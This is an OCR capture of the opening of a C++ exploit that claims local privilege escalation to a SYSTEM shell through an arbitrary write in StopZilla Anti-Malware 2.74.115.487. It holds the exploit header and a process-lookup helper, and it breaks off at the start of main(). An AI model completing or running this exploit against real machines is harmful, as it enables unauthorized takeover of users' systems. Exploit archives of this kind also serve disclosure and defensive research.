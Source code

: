 ```c++

/*
Exploit title:      StopZilla Anti-Malware 2.74.115.487 Arbitrary Write To Local Privilege Escalation
Exploit Author:     RashidKhan Pathan (0xiHexCoder) - @itRashid - https://rashidkhanpathan.github.io
Date:               9 Sep 2023
Vendor Homepage:    https://www.stopzilla.com/downloads/download-stopzilla-antimalware/
Download:           https://download.stopzilla.com/binaries/stopzilla/anti-malware/STOPzilla_AM_Setup.exe
Affected Version:   StopZilla AntiMalware v. <= 2.74.115.487
CVE:                CVE-2023-XXXX
Tested on:          Windows 10 Pro/Home x64 v.19045.3448
Category:           local exploit
Platform:           windows
Usage:              run Exploit.exe from user to achive NT Authority System Shell
*/

#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>


int GetProcessPIDByName(PCSTR ProcessName) {
	// Get HANDLE to ProcessName 
	DWORD pid = 0;
	PROCESSENTRY32 process;

	// Create toolhelp snapshot
	HANDLE hsnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	ZeroMemory(&process, sizeof(process));
	process.dwSize = sizeof(process);

	// Walkthrough all processes
	if (Process32First(hsnapshot, &process))
	{
		do
		{
			// Compare process.szExeFile based on name
			if (std::string(process.szExeFile) == std::string(ProcessName))
			{
				pid = process.th32ProcessID;
				break;
			}
		} while (Process32Next(hsnapshot, &process));
	}

	CloseHandle(hsnapshot);

	if (pid != 0)
	{
		return pid;
	}
	return NULL;
}



int main(int argc, char** argv)
{

```